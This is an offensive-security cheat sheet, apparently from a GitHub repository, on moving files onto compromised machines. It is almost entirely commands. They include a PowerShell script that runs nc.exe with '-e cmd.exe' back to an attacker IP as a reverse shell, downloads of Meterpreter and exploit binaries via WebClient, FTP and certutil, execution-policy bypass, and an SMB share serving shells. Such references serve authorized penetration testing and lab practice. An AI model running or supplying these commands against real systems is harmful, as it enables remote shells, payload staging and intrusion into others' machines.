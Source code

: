 # File transfert

=============================================================
## Nc Windows

Upload nc.exe or nc64.exe

    /usr/share/windows-binaries/nc.exe


Run reverse netcat connection and connect to attacker:

    echo $secpasswd = ConvertTo-SecureString "myPassword1" -AsPlainText -Force >script.ps1
    echo $mycreds = New-Object System.Management.Automation.PSCredential ("admin", $secpasswd) >>  script.ps1
    echo $computer = "User-PC" >> script.ps1
    echo [System.Diagnostics.Process]::Start("C:\tmp\nc.exe","192.168.168.169 443 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer) >> script.ps1
    powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File script.ps1


=============================================================
## Ftp Server Linux

    pip install pyftpdlib
    python -m pyftpdlib -p 21


## Ftp Client Linux

    ftp 10.10.10.4


## FTP Script client

    echo open 10.10.14.6>ftp_commands.txt&echo anonymous>>ftp_commands.txt&echo password>>ftp_commands.txt&echo binary>>ftp_commands.txt&echo get ms15051.exe>>ftp_commands.txt&echo bye>>ftp_commands.txt&ftp -s:ftp_commands.txt


=============================================================
## Http server Linux

    $ python -m SimpleHTTPServer 8000

    $ php -S localhost:8000 -t foo/
  
## Http client Unix

    wget, fetch, ftp, tftp

## Http client windows : certutil.exe


    certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip


## Http client windows : powershell System.Net.WebClient

    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')"


    echo $storageDir = $pwd > upload.ps1
    echo $url = "http://192.168.168.169/nc.exe" >> upload.ps1
    echo $file = "$storageDir\nc.exe" >> upload.ps1
    echo (New-Object System.Net.WebClient).DownloadFile($url,$file) >> upload.ps1
    powershell.exe -NoLogo -NoProfile -NonInteractive -ExecutionPolicy Bypass -File upload.ps1


=============================================================
## Tftp

Server (Complicated to configure...)

    service atftpd start



Metasploit, like with FTP, has an auxiliary TFTP server module at auxiliary/server/tftp. Set the module options, including TFTPROOT

Client

    tftp -i A.B.C.D GET filename

New version of windows: activate it : 

    pkgmgr /iu:"TFTP" 


=============================================================
## SMB server linux

Enter smbserver.py, part of the Impacket project [https://github.com/SecureAuthCorp/impacket] 
[tools/impacket-impacket_0_9_19.zip]

To launch a simple SMB server on port 445, just specify a share name and the path you want to share:

    $ python smbserver.py ROPNOP /root/shells


## SMB client windows

    smbclient -L 10.10.14.30 --no-pass
    net view \\10.10.14.30
    dir \\10.10.13.30\ROPNOP
    copy  \\10.10.13.30\ROPNOP\file.exe .


